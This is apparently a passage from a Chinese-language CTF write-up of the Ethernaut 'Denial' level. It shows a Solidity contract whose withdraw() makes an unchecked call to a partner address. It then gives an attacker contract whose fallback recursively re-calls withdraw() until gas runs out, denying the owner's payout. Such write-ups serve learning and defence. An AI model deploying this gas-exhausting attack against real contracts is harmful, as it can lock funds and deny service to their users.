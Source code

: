```solidity
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### 分析

其实看到了call函数形式的转账就猜到差不多了，就是fallback函数的利用。在fallback函数中递归的调用wiithdraw函数，这样直到gas用光，就达到目的了。

```solidity
pragma solidity ^0.8.0;

interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Denial {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    fallback() external payable {
        IDenial(levelInstance).withdraw();
    }

    function set() public {
        IDenial(levelInstance).setWithdrawPartner(address(this));
    }
}
```

## gatekeeper1

